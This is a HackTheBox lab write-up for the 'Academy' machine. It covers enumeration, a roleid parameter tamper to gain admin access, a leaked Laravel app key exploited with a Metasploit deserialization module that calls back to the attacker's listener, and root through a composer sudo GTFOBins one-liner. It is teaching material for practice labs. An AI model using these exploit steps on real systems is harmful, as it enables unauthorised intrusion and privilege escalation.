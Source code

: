 ```yaml
---
title: "HackTheBox - Academy"
author: Nasrallah
description: ""
date: 2023-02-19 00:00:00 +0000
categories : [HackTheBox, Machines]
tags: [hackthebox, linux, easy, sudo, logs, adm, metasploit, rce]
img_path: /assets/img/hackthebox/machines/academy
---
```


<div align="center"> <script src="https://www.hackthebox.eu/badge/565048"></script> </div>

---


## **Description**

Hello hackers, I hope you are doing well. We are doing [Academy](https://app.hackthebox.com/machines/) from [HackTheBox](https://www.hackthebox.com).

## **Enumeration**

### nmap

We start a nmap scan using the following command: `sudo nmap -sC -sV -T4 {target_IP}`.

- -sC: run all the default scripts.

- -sV: Find the version of services running on the target.

- -T4: Aggressive scan to provide faster results.


```terminal
Nmap scan report for 10.10.10.215
Host is up (0.27s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 c090a3d835256ffa3306cf8013a0a553 (RSA)
|   256 2ad54bd046f0edc93c8df65dabae7796 (ECDSA)
|_  256 e16414c3cc51b23ba628a7b1ae5f4535 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Did not follow redirect to http://academy.htb/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

We found two open ports, port 22 running OpenSSH and port 80 is Apache http web server.

### Web

We saw from the nmap scan that the web server redirects to the hostname academy.htb, let's add it to /etc/hosts and navigate to it.

![](1.png)

It's the welcome page for academy with two links, one for login and the other for register.

I went to the login page and tried some default credentials and sqli but no luck with that.

Let's register a user.

![](2.png)

Now let's login.

![](3.png)

This is the dashboard of the actual HTB academy, but none of the links work.

### gobuster

Let's run a directory/file scan.

```terminal
===============================================================
[+] Url:                     http://academy.htb
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              php
[+] Timeout:                 10s
===============================================================
2023/02/11 11:01:52 Starting gobuster in directory enumeration mode
===============================================================
/.hta                 (Status: 403) [Size: 276]
/.hta.php             (Status: 403) [Size: 276]
/.htaccess            (Status: 403) [Size: 276]
/.htpasswd            (Status: 403) [Size: 276]
/.htaccess.php        (Status: 403) [Size: 276]
/.htpasswd.php        (Status: 403) [Size: 276]
/admin.php            (Status: 200) [Size: 2633]
/admin.php            (Status: 200) [Size: 2633]
/config.php           (Status: 200) [Size: 0]   
/home.php             (Status: 302) [Size: 55034] [--> login.php]
/images               (Status: 301) [Size: 311] [--> http://academy.htb/images/]
/index.php            (Status: 200) [Size: 2117]                                
/index.php            (Status: 200) [Size: 2117]                                
/login.php            (Status: 200) [Size: 2627]                                
/register.php         (Status: 200) [Size: 3003]                                
/server-status        (Status: 403) [Size: 276]                                 
                                                                                
===============================================================

```

We found admin.php which is another login page, we have no credentials for it.

Returning to the register page, i used burp to intercept the register request and found the following.

![](4.png)

The parameter `roleid` with value 0 gets sent with the register request, I used repeater to send another register request but changed to `roleid` value to 1.

With that i managed to login in the admin.php page.

![](5.png)

We see a table that reveals a subdomain, let's add it to /etc/hosts and check it out.

![](6.png)

This looks like a page used by developers to check source code.

![](7.png)

Scrolling down we find that the website uses laravel and we can see the app key.

Let's see if there are any exploit for `laravel`

![](8.png)


## **Foothold**

Let's start msfconsole and use `exploit/unix/http/laravel_token_unserialize_exec`.

We need set the following options

```bash
[msf](Jobs:0 Agents:0) exploit(unix/http/laravel_token_unserialize_exec) >> set app_key dBLUaMuZz7Iq06XtL/Xnz/90Ejq+DEEynggqubHWFj0=
app_key => dBLUaMuZz7Iq06XtL/Xnz/90Ejq+DEEynggqubHWFj0=
[msf](Jobs:0 Agents:0) exploit(unix/http/laravel_token_unserialize_exec) >> set rhosts 10.10.10.215
rhosts => 10.10.10.215
[msf](Jobs:0 Agents:0) exploit(unix/http/laravel_token_unserialize_exec) >> set vhost dev-staging-01.academy.htb
vhost => dev-staging-01.academy.htb
[msf](Jobs:0 Agents:0) exploit(unix/http/laravel_token_unserialize_exec) >> set lhost tun0
lhost => 10.10.17.90
```

Now let's run the exploit.

![](9.png)

## **Privilege Escalation**

Checking the website files, we find a `.env` file with some credentials.

![](10.png)

Looking for a user to twitch to using the password i found 6 users in /home, so i run `locate user.txt` to locate the user flag and found the user to switch to.

![](11.png)

By running the command id, we see that the user is part of `adm` group, which is a group that can read log files in `/var/log`.

Checking multiple log files, we go to `/var/log/audit` where we use `aureport` to get a summary report from all files in /var/log/audit.

![](12.png)

Now let's run `aureport --tty` to get a report about tty keystrokes

![](13.png)

We can see someone tried to switch to mrb3n and pasted a password.

Let's use that to ssh as `mrb3n`.

Now let's check out current privileges.

```terminal
mrb3n@academy:~$ sudo -l
Matching Defaults entries for mrb3n on academy:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User mrb3n may run the following commands on academy:
    (ALL) /usr/bin/composer

```

We can run composer as root.

A quick search on GTFOBins, we find the commands we need to run to get a root shell.

```bash
TF=$(mktemp -d)
echo '{"scripts":{"x":"/bin/sh -i 0<&3 1>&3 2>&3"}}' >$TF/composer.json
sudo composer --working-dir=$TF run-script x
```

![](20.png)

---

Thank you for taking the time to read my write-up, I hope you have learned something from this. If you have any questions or comments, please feel free to reach out to me. See you in the next hack :).
